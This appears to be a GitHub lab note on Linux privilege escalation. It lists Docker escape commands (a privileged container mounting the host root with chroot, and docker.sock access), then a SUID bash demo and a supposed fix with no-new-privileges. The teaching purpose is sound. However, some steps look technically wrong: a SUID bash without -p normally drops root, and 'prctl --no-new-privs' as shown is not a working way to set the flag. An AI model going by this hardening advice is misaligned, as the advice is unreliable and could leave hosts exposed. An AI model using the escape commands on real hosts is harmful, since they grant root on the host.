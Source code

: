 
# Host Machine Privilege Escalation Attempt


## Unsave Container Mounting docker.sock in container  
docker run -it --rm --privileged -v /:/mnt ubuntu:24.04 bash
ls /mnt
cat /mnt/etc/passwd

chroot /mnt /bin/bash (You’re now effectively in the host filesystem as root)

Docker socket escape

docker run -it -v /var/run/docker.sock:/var/run/docker.sock docker:24.0.5 sh
docker ps (inside container we can run)
docker run -it --rm --privileged ubuntu:24.04 bash (Launh Container)


## Goal
Demonstrate how a normal user could try to gain root access on a Linux host, and how `no-new-privileges` can prevent it.

---

## Step 1: Create a Normal User
```bash
sudo useradd -ms /bin/bash testuser
sudo passwd testuser
su - testuser
```
- `testuser` is a normal user.  
- Normal users should **not be able to perform root-only tasks**.

---

## Step 2: Try a Root-Only Command
```bash
ls /root
```
- Output:
```
ls: cannot open directory '/root': Permission denied
```
- Result: Normal user cannot access root files 

---

## Step 3: Simulate a Vulnerable Program
Some programs have **SUID permission**, which can let normal users become root.

```bash
sudo cp /bin/bash /tmp/bash-root
sudo chmod +s /tmp/bash-root
```
- `/tmp/bash-root` can now run **as root** if executed.

---

## Step 4: Test Privilege Escalation
As `testuser`:
```bash
/tmp/bash-root -c "whoami"
```
- Output: `root` → dangerous!  
- Explanation: Any normal user could now become root.

---

## Step 5: Protect with `no-new-privileges`
`no-new-privileges` prevents processes from gaining extra privileges.

1. Run a new bash shell with protection:
```bash
sudo unshare --pid --fork --mount-proc bash
prctl --no-new-privs
```

2. Test the same SUID binary:
```bash
/tmp/bash-root -c "whoami"
```
- Output: `testuser` → cannot become root 


---

## Step 6: Explanation
- **Without `no-new-privileges`:** Vulnerable programs can give users root → host at risk.  
- **With `no-new-privileges`:** Users cannot gain extra privileges → host is safer.

---



## Summary Table

| Scenario                     | Result Without Protection | Result With `no-new-privileges` |
|-------------------------------|--------------------------|--------------------------------|
| Normal user runs root command | Fails                    | Fails                          |
| User runs SUID binary         | Succeeds → becomes root  | Fails                          |
| Risk                          | High                     | Low                            |
